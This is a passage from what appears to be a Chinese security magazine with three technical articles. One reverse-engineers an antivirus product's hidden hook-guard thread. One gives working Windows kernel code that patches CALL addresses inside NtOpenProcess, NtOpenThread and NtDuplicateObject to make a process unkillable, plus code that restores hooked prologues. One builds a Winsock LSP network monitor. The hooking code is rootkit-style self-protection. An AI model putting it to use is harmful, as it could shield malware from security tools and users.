805425f7 ff1548d75580  call dword ptr [nt!KeGdiFlushUserBatch]
...
80542608 8b5f0c        mov ebx, dword ptr [edi+0Ch]
8054260b 33c9          xor ecx, ecx
```

80542608 和 8054260b 两句指令，一个是3个字节，一个是2个字节，合起来刚好容得下一句 jmp 指令，江民就是把这两句改成了跳转指令，从而把程序的执行流程引到江民的模块里去。说到江民的模块，这里要提一下它有两个与 KiFastCallEntry Hook 保护相关的模块，分别是 KSysMon.sys 和 SysGuard.sys。从这句跳转指令……

```asm
// 线程函数，会循环保护 KiFastCallEntry Hook
KSysMon+0xcae6:
 f8005ae6  mov edi, edi
 f8005ae8  push ebp
 f8005ae9  mov ebp, esp
 ...
 f8005b05  lea eax, [KSysMon+0xcb1e]
```

```asm
f8005b0b  add  eax, 1Cb
f8005b0e  push eax
f8005b0f  call KSysMon+0xcb16
...
; 底下有个jmp会跳到这里，构成一个无限循环
f8005b88  push eax
f8005b89  push 0
f8005b8b  push 0
f8005b8d  push 0
f8005b8f  push dword ptr [KSysMon+0x1bbc8]
f8005b95  call dword ptr [KSysMon+0x1094c] ; KeWaitForSingleObject
f8005b9b  cmp eax, 102h
f8005ba0  jne KSysMon+0xcc28
f8005ba6  call KSysMon+0xca50
...
f8005bb3  jmp 1dc0dfd0
```

```asm
f8005bfa  test eax, eax
f8005bfc  je   KSysMon+0xcc1a
f8005bfe  mov  eax, dword ptr [KSysMon+0x1bb84]
...
; 以上所有条件跳都是跳到这里
f8005c1a  push 0
f8005c1c  push 0Ah
f8005c1e  call KSysMon+0x25480
f8005c23  jmp  KSysMon+0xcb85
; 跳上去形成一个无限循环
f8005c39  call dword ptr [KSysMon+0x10b48] ; ExFreePoolWithTag
f8005c48  call dword ptr [KSysMon+0x10940] ; PsTerminateSystemThread
f8005c4e  pop edi
f8005c4f  leave
f8005c50  ret 4
```

以上 f8005ba6 地址处调用的函数 KSysMon+0xca50，它所做的就是检查 Hook 的内存地址是否被修改，如果发现被修改了就重新 Hook。所以江民在这个线程中不断地调用这个函数，就保证了 KiFastCallEntry Hook 是一直存在的。如果用伪代码简要地表示出这段反汇编代码的核心意思，大致就是下面这个样子。

```c
ThreadProc()
{
    while(1)
    {
        st = KeWaitForSingleObject(x, x, x, x, x);
        if(st != 0x102)
            break;
        call KSysMon+0xca50;
        ...
    }
}



```

注意这个线程是隐藏的，所以用一般的 ARK 工具是查看不到的。另外，这个线程位于 KSysMon.sys 模块，在江民的另一个模块 SysGuard.sys 里，也有一个与之类似的隐藏线程来保护它的 KiFastCallEntry Hook。可见江民对这个函数的 Hook 做保护的力气不小。

而且还把线程隐藏了，真没想到杀毒软件也会这么“邪恶”。江民是怎么保护 KiFastCallEntry inline Hook 的，现在终于搞清楚了，那么如何恢复它的钩子？我们就可以想出很多种办法来了。实现代码这里就不提供了，免得被意图搞破坏的人搞复制粘贴，拿去危害互联网。

前置知识：VC  
关键词：编程、Hook、地址替换

##### 函数 CALL 地址替换实现深度钩子
文/广东工业大学 胡文亮

相信玩过驱动的人都知道“钩子”，它的威力和用途本文就不赘述了。《黑客防线》以前的文章在讲函数钩子的时候，基本都是 SSDT Hook 和修改函数头 5 字节或 2 字节的 Inline Hook，很少讲到深度的 Inline Hook。经过查找资料，我发现修改函数内部的 CALL 地址也能实现 Inline Hook。这种 Hook 法修改的地址在函数较深的偏移处，而且没有 JMP。

大家知道，XueTr 和 RkU 都 Hook 了 NtOpenProcess 和 NtTerminateProcess，但不知道有人注意到这样一个问题没有，冰刃杀不死 XueTr，但是能杀死 RkU。据了解，冰刃是使用 NtOpenProcess + NtTerminateProcess 杀死进程的，在此之前，冰刃会先恢复 NtOpenProcess 和 NtTerminateProcess 的前 20 字节。为什么连钩同样的函数，却达到了不同的效果呢？首先打开 WinDBG，检查内核钩子。分别打开 XueTr 和 RkU 时，WinDBG 会有不同的显示：

```asm
805728e7 8d45e0         lea     eax, [ebp-20h]
805728ea 50             push    eax
805728eb ff75cc         push    dword ptr [ebp-34h]
805728ee ff3558245680   push    dword ptr [nt!PsProcessType]
805728f4 56             push    esi
805728f5 8d8548ffff     lea     eax, [ebp-0B8h]
805728fb 50             push    eax
805728fc ff75c8         push    dword ptr [ebp-38h]
805728ff ff75dc         push    dword ptr [ebp-24h]
80572902 e86f1dff       call    nt!ObOpenObjectByPointer

nt!NtOpenProcess+0x209:
805728e7 8d45e0         lea     eax, [ebp-20h]
805728ea 50             push    eax
805728eb ff75cc         push    dword ptr [ebp-34h]
805728ee ff3558245680   push    dword ptr [nt!PsProcessType]
805728f4 56             push    esi
805728f5 8d8548ffff     lea     eax, [ebp-0B8h]
805728fb 50             push    eax
805728fc ff75c8         push    dword ptr [ebp-38h]
805728ff ff75dc         push    dword ptr [ebp-24h]
80572902 e853a8f836     call    b74f015a
```

在打开 XueTr 之后，NtOpenProcess 函数要 Call 的 ObOpenObjectByPointer 的地址被替换成了伪函数的地址。这就是本文的原理。接下来，我们看看如何用代码实现。我们的任务是查找到原来被 call 函数的地址，并替换它。

```text
80572903-80572906  '4 bytes - nt!NtOpenProcess+122S' (+0x2ca)
[6c c1 ff ff 53 a8 f8 36]

805727cc-805727d0  '5 bytes - nt!NtOpenProcess+5' (+0x1ec)
[68 d8 b0 4c 80 e9 05 3e 68 77]
```

现在知道为什么冰刃杀不死 XueTr 了吧？因为冰刃只恢复了函数的前 20 字节，而 XueTr 却修改了函数的第 549 个字节起的 4 个字节。接下来我们分别看看在关闭和打开 XueTr 时，NtOpenProcess 的异同之处（反汇编代码太长，只贴关键部分）：

```asm
nt!NtOpenProcess+0x209:
```

```cpp
// 从 StartAddr 地址开始找 OldAddr，替换为 NewAddr
// 地址，长度是 SIZE
BOOL CallAddrHook(PVOID StartAddr, PVOID OldAddr, PVOID NewAddr, ULONG Size)
{
    PUCHAR cPtr, pOpcode;
    ULONG Length, Tmp;
    ...
}
```

```c
for (cPtr = StartAddr; cPtr < StartAddr + Size; cPtr += Length) {
    Length = SizeOfCode(cPtr, &pOpcode);
    if (!Length) break;
    if (Length == 5 && *cPtr == 0xE8) {
        if ((ULONG)OldAddr - (ULONG)cPtr - 5 == *(PULONG)(cPtr + 1)) {
            Tmp = (ULONG)NewAddr - (ULONG)cPtr - 5;
            MemOpen();
            *(PULONG)(cPtr + 1) = Tmp;
            MemClose();
            return TRUE;
        }
    }
}
return FALSE;
```

这段代码不仅可以在挂钩的时候用，在卸载钩子的时候也用它，因为我们仅仅是替换了个地址而已。接下来我们就能挂钩了，代码如下：

```c
pObOpenObjectByPointer = (OBOPENOBJECTBYPOINTER)GetFuncAddr(L"ObOpenObjectByPointer");
pNtOpenProcess = (PVOID)GetFuncAddr(L"NtOpenProcess");
CallAddrHook(pNtOpenProcess, pObOpenObjectByPointer,
             MyObOpenObjectByPointer_forProcess, PAGE_SIZE);
```

接下来写伪函数，处理过程跟直接挂钩 ObOpenObjectByPointer 一样，若发现要打开的是自己的进程，就直接返回拒绝访问。

```c
NTSTATUS MyObOpenObjectByPointer_forProcess(
    IN PVOID Object,
    IN ULONG HandleAttributes,
    IN PACCESS_STATE PassedAccessState OPTIONAL,
    IN ACCESS_MASK DesiredAccess OPTIONAL,
    IN POBJECT_TYPE ObjectType OPTIONAL,
    IN KPROCESSOR_MODE AccessMode,
    OUT PHANDLE Handle)
{
    if (Object == MyProcess) {
        return STATUS_ACCESS_DENIED;
    } else {
        return pObOpenObjectByPointer(Object, HandleAttributes,
            PassedAccessState, DesiredAccess, ObjectType, AccessMode, Handle);
    }
}
```

对线程也如法炮制，原理和上面一样。

```c
pObOpenObjectByPointer = (OBOPENOBJECTBYPOINTER)GetFuncAddr(L"ObOpenObjectByPointer");
pNtOpenThread = (PVOID)GetFuncAddr(L"NtOpenThread");
CallAddrHook(pNtOpenThread, pObOpenObjectByPointer,
             MyObOpenObjectByPointer_forThread, PAGE_SIZE);
```

```c
NTSTATUS MyObOpenObjectByPointer_forThread(
    IN PVOID Object,
    IN ULONG HandleAttributes,
    IN PACCESS_STATE PassedAccessState OPTIONAL,
    IN ACCESS_MASK DesiredAccess OPTIONAL,
    IN POBJECT_TYPE ObjectType OPTIONAL,
    IN KPROCESSOR_MODE AccessMode,
    OUT PHANDLE Handle)
{
    if (IoThreadToProcess(Object) == MyProcess) {
        return STATUS_ACCESS_DENIED;
    } else {
        return pObOpenObjectByPointer(Object, HandleAttributes,
            PassedAccessState, DesiredAccess, ObjectType, AccessMode, Handle);
    }
}
```

大家都知道，进程和线程的句柄在 CSRSS 中也保存了一份，所以我们有必要把 NtDuplicateObject 也挂钩。根据 WinDBG 的反汇编结果看，在 NtDuplicateObject 的内部调用了 ObDuplicateObject。

```asm
nt!NtDuplicateObject+0xb2:
push dword ptr [ebp-20h]
push dword ptr [ebp+20h]
push dword ptr [ebp+1Ch]
push dword ptr [ebp+18h]
lea  eax, [ebp-24h]
push eax
push dword ptr [ebp-1Ch]
push dword ptr [ebp+0Ch]
push dword ptr [ebp-28h]
call nt!ObDuplicateObject
```

由于 ObDuplicateObject 未被 ntoskrnl.exe 导出，所以我们要自己搜索它的地址，而不能直接使用 MmGetSystemRoutineAddress。

```c
VOID GetObDuplicateObject()
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length;
    ULONG NtDOaddr = GetFuncAddr(L"NtDuplicateObject");
    ULONG CallXX = 0;

    for (cPtr = (PUCHAR)NtDOaddr; cPtr < (PUCHAR)NtDOaddr + PAGE_SIZE; cPtr += Length) {
        Length = SizeOfCode(cPtr, &pOpcode);
        if (!Length) break;
        if (*pOpcode == 0xE8) {
            CallXX = CallXX + 1;
            if (CallXX == 4) {
                ObDO = (ULONG)(*(PULONG)(pOpcode + 1) + (ULONG)cPtr + 5);
            }
        }
    }
}
```

在 Windows XP 和 Windows 2003 系统中，NtDuplicateObject 都有 6 个 call，其中第 4 个是 ObDuplicateObject。以下是我在 ReactOS.org 查到的 ObDuplicateObject 的原型：

```c
NTSTATUS ObDuplicateObject(IN PEPROCESS SourceProcess,
    IN HANDLE SourceHandle,
    IN PEPROCESS TargetProcess OPTIONAL,
    IN PHANDLE TargetHandle OPTIONAL,
    IN ACCESS_MASK DesiredAccess,
    IN ULONG HandleAttributes,
    IN ULONG Options,
    IN KPROCESSOR_MODE PreviousMode)
```

可以看到，这个函数和 NtDuplicateObject 基本相同，就是第 1 个和第 3 个参数不同，由进程句柄变成了进程指针。挂钩过程和前面一样，就不把代码贴出来了，这里着重讲一下处理过程。

```c
NTSTATUS MyObDuplicateObject(IN PEPROCESS SourceProcess,
    IN HANDLE SourceHandle,
    IN PEPROCESS TargetProcess OPTIONAL,
    IN PHANDLE TargetHandle OPTIONAL,
    IN ACCESS_MASK DesiredAccess,
    IN ULONG HandleAttributes,
    IN ULONG Options,
    IN KPROCESSOR_MODE PreviousMode)
{
    NTSTATUS ntStatus, Tmp;
    PROCESS_BASIC_INFORMATION PBI;
    ntStatus = pObDuplicateObject(SourceProcess, SourceHandle, TargetProcess, TargetHandle, DesiredAccess, HandleAttributes, Options, PreviousMode);
    if (NT_SUCCESS(ntStatus)) {
        Tmp = ZwQueryInformationProcess(*TargetHandle, ProcessBasicInformation, &PBI, sizeof(PBI), NULL);
        if (NT_SUCCESS(Tmp)) {
            if (PBI.UniqueProcessId == (ULONG)PsGetProcessId(MyProcess)) {
                ZwClose(*TargetHandle);
                ntStatus = STATUS_UNSUCCESSFUL;
            }
        }
    }
    return ntStatus;
}






```

这段代码只处理了进程句柄，没有处理线程句柄，线程句柄的处理工作就留给大家了。另外，我们还可以用 ObReferenceObjectByHandle 查询句柄，代码反而简单些，但是 ObReferenceObjectByHandle 被挂钩的可能性太大，具体怎样做还请自己定夺。图 1 和图 2 是本文编写程序的最终效果，原始代码和当前代码都是 call，没有 imp，无论是普通打开进程还是复制进程句柄。
图 1
图 2

卸载钩子的代码就是把自己的伪函数地址替换成真正函数的地址。

```c
CallAddrHook(pNtOpenProcess, MyObOpenObjectByPointer_forProcess, pObOpenObjectByPointer, PAGE_SIZE);
CallAddrHook(pNtOpenThread, MyObOpenObjectByPointer_forThread, pObOpenObjectByPointer, PAGE_SIZE);
CallAddrHook(pNtDuplicateObject, MyObDuplicateObject, pObDuplicateObject, PAGE_SIZE);
```

曾经有人问我为什么不以 ObOpenObjectByPointer 和 KeInsertQueueApc 做演示对象，我觉得这两个函数调用得太频繁，挂钩容易导致蓝屏不说，即使不蓝屏，也会大大拖慢系统速度。

最后说说这种深度钩子的意义。有人说，进了 Ring0 什么事情不能干，人家恢复钩子不就行了？这句话是没错，但人与人之间是有水平差异的。检测和恢复内核钩子的代码在网上几乎没有，以前在《黑客防线》刊登的文章《编程实现 Ring0 下的恢复所有模块导出函数的 Inline Hook》的代码对我的钩子是无效的，大家可以测试一下。另外，在 NT 系统的内核里，几乎所有的内核函数的头 5 个字节都是 `{8B, FF, 55, 8B, EC}`，所以直接使用硬编码就能在所有 NT 系统下恢复修改函数头的 Inline Hook，以下是实现代码：

```c
BYTE KnFt_orig_code[5] = {0x8B, 0xFF, 0x55, 0x8B, 0xEC};
void Restore[函数名]()
{
    PUCHAR addr;
    KIRQL oldIrql;
    addr = (PUCHAR)GetFunctionAddr("[函数名]");
    WPOFF();
    oldIrql = KeRaiseIrqlToDpcLevel();
    RtlCopyMemory((BYTE*)addr, KnFt_orig_code, 5);
    KeLowerIrql(oldIrql);
    WPON();
}







```

- 前置知识：VC
- 关键词：SPI、网络行为、监视

##### 基于 SPI 的网络行为监视器
文/图 武文信安 余跃 孔亚楠

最近在做一些关于网络行为分析的项目，接触到一些个人防火墙、网络封包过滤等技术，如 SPI、TDI、NDIS 等；并且分析了一些现有的成熟软件，自己动手编写了一个网络行为监视器，在此与大家分享。同时，我非常希望有高手朋友能帮忙一起完善，打造一个较为完善的个人防火墙。

###### 背景介绍

目前，成熟的个人防火墙层次构架参照 OSI 7 层模型，如图 1 所示。可见，实现网络行为监控可以有许多方式。在应用层，可以 Hook API；在会话层可以利用 SPI 技术。深入到内核模式中，在传输层 TDI 实现也是一个不错的选择。但是，以上方式的防穿透性都不够强，在 Windows 里实现防火墙最标准、最规范、最强大的方式应该是网络层的 NDIS（也有人认为 NDIS 应该属于数据链路，或者不属于 OSI 构架，个人认为区别不大，仁者见仁吧）。

目前，国内有一款很成熟的个人防火墙——费尔防火墙。第二版的费尔防火墙只是在 SPI 层实现网络监控和封包过滤，第三版加入了驱动模块。但不足之处是这款防火墙是收费的，而其从目前的恶意程序、木马、病毒等的网络行为来看，非常有必要注意两种行为：远程连接某个地址和开启某个端口监听，即 CONNECT 和 LISTEN，费尔防火墙对这两个行为监控做得不够，而是重点在网络数据的收发。如果等到木马发送或者接收数据时才发现，那就太迟了，可能你的敏感资料已被窃取，或者恶意代码已经下载到本地了。
###### Winsock 2 SPI 原理介绍

“传输提供者”（Transport Providers，一般称做协议堆栈，例如 TCP/IP）能够提供建立通信、传输数据、日常数据流控制和错误控制等传输功能方面的服务。SPI（Service Provider Interface）是 Winsock 2 中引入的一个新功能，让开发者可以编写自己的服务提供者接口程序。SPI 是以动态链接库的形式（DLL）存在的，它通过 WSPStartup 函数为上层函数提供接口，而其他的传输服务提供者函数则通过分配表的方式来访问 ws2_32.dll。SPI 的动态链接库只有在应用程序需要时才由 ws2_32.dll 来装入内存中，在不需要时则会被自动卸载，其结构如图 2 所示。

Winsock2 中使用的 SPI 有两类：基础服务提供者和分层服务提供者。基础服务提供者执行网络传输协议（比如 TCP/IP）的具体细节，其中包括在网络上收发数据之类的核心网络协议功能。分层式服务提供者只负责执行高级的自定义通信功能，并依靠下面的基础服务提供者，在网络上进行真正的数据交换。
图 2  Winsock 2 SPI 结构

##### LSP 动态链接库实现

LSP 即分层服务提供者（Layered Service Provider），是具体实施服务的 DLL 模块，为主程序提供服务。根据上一节的原理分析可知，DLL 中要导出一个函数 WSPStartup，这里跟传统 LSP 动态链接库类似，就不赘述了。我们关键看过滤 Winsock API 部分和与主程序通信部分。

首先，为了保存程序的网络行为，我定义了一个数据结构，保存了进程 PID、IP、端口和行为类型等重要信息。

```cpp
extern "C" {
// 定义结构体
typedef struct _Mysocket {
    DWORD dwPid;      // 进程 PID
    int protocol;     // 协议类型
    in_addr ipfrom;   // IP 源
    in_addr ipto;     // 目的地 IP
    DWORD port;       // 端口号
    int action;       // 行为类型
    SOCKET socket;    // socket
    // ......
} Mysocket, *PMysocket;
```

在 WSPStartup 中，Hook 以下 Winsock API，实现监控：

```cpp
lpProcTable->lpWSPListen = WSPListen;
lpProcTable->lpWSPConnect = WSPConnect;
lpProcTable->lpWSPAccept = WSPAccept;
lpProcTable->lpWSPSend = WSPSend;
lpProcTable->lpWSPSendTo = WSPSendTo;
lpProcTable->lpWSPRecv = WSPRecv;
lpProcTable->lpWSPRecvFrom = WSPRecvFrom;
```

鉴于篇幅，我将选取有代表性的函数进行介绍。首先，我们分析 WSPListen 和 WSPAccept 两个函数，实现代码如下：

```cpp
int WSPAPI WSPListen(
    SOCKET s,
    int backlog,
    LPINT lpErrno
)
```

```cpp
LPINT lpErrno
)
{
    ODS(_T("MySpi.DLL WSPListen..."));
    // 调试时显示信息
    sockaddr_in local;
    int len = sizeof(local);
    getsockname(s, (sockaddr*)&local, &len);
    // 得到 LISTEN socket 信息
    Mysocket info;
    info.dwPid = GetCurrentProcessId();
    // 得到进程 PID，用于得到进程名
    info.action = LISTEN;   // 定义行为
    info.port = ntohs(local.sin_port); // 得到端口号
    info.ipfrom = local.sin_addr;
    info.socket = s;
    COPYDATASTRUCT cpd; // 给 COPYDATASTRUCT 结构赋值
    cpd.dwData = info.action;
    cpd.cbData = sizeof(info);
    cpd.lpData = &info;
    g_hWnd->SendMessage(WM_COPYDATA, NULL, (LPARAM)&cpd);
    // 将行为信息发送给主程序
    return NextProcTable.lpWSPListen(s, backlog, lpErrno);
    // 调用下层函数
}

SOCKET WSPAPI WSPAccept(
    SOCKET s,
    struct sockaddr FAR *addr,
    LPINT addrlen,
    LPCONDITIONPROC lpfnCondition,
    DWORD dwCallbackData,
    LPINT lpErrno
)
{
    ODS(_T("MySpi.DLL WSPAccept..."));
    Mysocket info;
    sockaddr_in *pRemote = (sockaddr_in *)addr;
    info.dwPid = GetCurrentProcessId(); // 进程 PID
    info.action = ACCEPT; // 定义行为
    info.port = ntohs(pRemote->sin_port); // 端口号
    info.ipto = pRemote->sin_addr; // 远方 IP 地址
    info.socket = s;
    COPYDATASTRUCT cpd;
    cpd.dwData = info.action;
    cpd.cbData = sizeof(info);
    cpd.lpData = &info;
    g_hWnd->SendMessage(WM_COPYDATA, NULL, (LPARAM)&cpd);
    // 传送消息
    return NextProcTable.lpWSPAccept(s, addr, addrlen, lpfnCondition, dwCallbackData, lpErrno);
}
```

我们再来看 WSPSend 函数，代码如下。由于我们只关心 SEND 这个行为，而不是具体发送了什么，所以我们只记录部分信息。有兴趣的朋友可以根据参数，取出数据包的内容、长度等。

```cpp
int WSPAPI WSPSend(
    SOCKET s,
    LPWSABUF lpBuffers,
    DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesSent,
    DWORD dwFlags,
    LPWSAOVERLAPPED lpOverlapped,
    ...
)
```

```cpp
LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
LPWSATHREADID lpThreadId,
LPINT lpErrno
)
{
    ODS(_T("MySpi.DLL: WSPSend ..."));
    sockaddr_in local;
    int len = sizeof(local);
    getsockname(s, (sockaddr*)&local, &len);
    Mysocket info;
    info.dwPid = GetCurrentProcessId();
    info.action = SEND;
    info.port = ntohs(local.sin_port);
    info.ipto = local.sin_addr;
    info.socket = s;

    COPYDATASTRUCT cpd;
    cpd.dwData = info.action;
    cpd.cbData = sizeof(info);
    cpd.lpData = &info;
    g_hWnd->SendMessage(WM_COPYDATA, NULL, (LPARAM)&cpd);

    return NextProcTable.lpWSPSend(
        s, lpBuffers, dwBufferCount,
        lpNumberOfBytesSent, dwFlags,
        lpOverlapped, lpCompletionRoutine,
        lpThreadId, lpErrno);
}
```

##### DLL 与主程序交互实现

由于这里的 DLL 不是由主程序加载的，所以映射到不同的内存空间，要实现两者通信比较麻烦，这里就简单介绍一下。为了实现 DLL 与主程序间的交互，我利用了 `WM_COPYDATA` 消息，同样这个消息也可以轻松实现两个进程间的通信问题。

首先，在 DLL 中要得到主程序的窗口句柄。根据 SPI 的原理，利用传统方法，在 DLL 中暴露接口，让主程序传入句柄是行不通的。我利用的方法是在 DllMain 中，利用 FindWindow 得到主程序的窗口句柄，然后保存在 DLL 的全局变量中。接着，在主程序里面重载 ON_WM_COPYDATA 消息映射函数，这样就可以在响应函数中收到 COPYDATASTRUCT 结构，然后解析，得到我们 DLL 中监控的网络行为信息。

##### 主程序设计

在主程序中，主要是对 DLL 发来的消息进行解析，主要代码如下：

```cpp
// 主程序根据 PID 得到进程全称
CString GetName(DWORD pid)
{
    PROCESSENTRY32 pe32;
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    BOOL b = Process32First(hProcessSnap, &pe32);
    CString tmp;
    while (b)
    {
        if (pe32.th32ProcessID == pid)
        {
            tmp = pe32.szExeFile;
            break;
        }
        b = Process32Next(hProcessSnap, &pe32);
    }
    CloseHandle(hProcessSnap);
    return tmp;
}
```

```cpp
{
    // printf("ProcessName is %s.\n", pe32.szExeFile);
    tmp = pe32.szExeFile;
    // 枚举进程，找到 PID 对应进程名称
    break;
}
...

